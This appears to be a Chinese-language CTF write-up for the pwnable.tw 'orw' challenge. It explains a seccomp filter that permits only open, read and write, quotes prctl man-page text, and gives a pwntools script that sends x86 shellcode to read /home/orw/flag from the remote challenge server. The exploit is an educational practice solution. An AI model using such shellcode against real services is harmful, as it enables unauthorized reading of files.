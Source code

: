 # ReadMe
#0blog

主要考察shellcode的编写么。
程序写了自己的seccomp函数，通过`prctl`限制了可以使用的系统调用，只能使用`open` 、`read`、 `write`函数，于是流程就很清晰了，使用open打开flag文件，read数据，write出来。

> PR_MCE_KILL (since Linux 2.6.32)  
> 		Set the machine check memory corruption kill policy for the calling thread.    
> 		If arg2 is PR_MCE_KILL_CLEAR, clear the thread memory corruption kill policy and use the 				system-wide default.  (The system-wide default is defined by _proc_sys_vm_							memory_failure_early_kill; see proc(5).)    
> 		If arg2 is PR_MCE_KILL_SET, use a thread-specific memory corruption kill policy.  In this case, 				arg3 defines whether the policy is early kill (PR_MCE_KILL_EARLY), late kill 							(PR_MCE_KILL_LATE),or the system-wide default (PR_MCE_KILL_DEFAULT).  Early kill 					means that the thread receives a SIGBUS signal as soon as hardware memory corruption is 			detected inside its address space.  In late kill mode, the process is killed only when it 					accesses a corrupted page.  See sigaction(2) for more information on the SIGBUS signal.  				The policy is inherited by children.  The remaining unused prctl() arguments must be zero 				for future compatibility.  

> PR_GET_SECCOMP (since Linux 2.6.23)  
> 		Return (as the function result) the secure computing mode of the calling thread.    
> 		If the caller is not in secure computing mode, this operation returns 0;   
> 		if the caller is in strict secure computing mode, then the prctl() call will cause a SIGKILL signal   
> 			to be sent to the process.    
> 		If the caller is in filter mode, and this system call is allowed by the seccomp filters, it returns   
> 			2; otherwise, the process is killed with a SIGKILL signal.  This operation is available only if  
> 			the kernel is configured with CONFIG_SECCOMP enabled.  
> 		Since Linux 3.8, the Seccomp field of the _proc_[pid]/status file provides a method of obtaining 		the same information,without the risk that the process is killed; see proc(5).  


```python
from pwn import *

context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']
debug = 0

if debug:
    p = process("./orw") 
    gdb.attach(proc.pidof(p)[0]) 
else:
    p = remote("chall.pwnable.tw", 10001)

p.recvuntil("Give my your shellcode:")
asm_init = "xor eax, eax;xor ebx, ebx;xor ecx, ecx;xor edx,edx"
asm_write = "mov edx, 50;mov ebx, 1; mov ecx, {}; mov eax, 4; int 0x80;"
asm_read = "mov ecx, {};mov ebx, {}; mov edx, 50;mov eax, 3;int 0x80;"
asm_open = "mov ebx, {};mov ecx, 0; xor edx,edx;mov eax, 5;int 0x80;"

payload = asm(asm_init) + asm(asm_write.format("0x80486a0")) + asm(asm_read.format("esp", "0")) + asm(asm_open.format("esp")) + asm(asm_read.format("esp", "eax")) + asm(asm_write.format("esp"))
p.send(payload)

p.recvuntil("Give")
p.send("/home/orw/flag" + p32(0x00) + "Lambdax")
p.interactive()
```

![](ReadMe/6A4FBD98-1ED9-4C3F-933C-D1B62C54188D.png)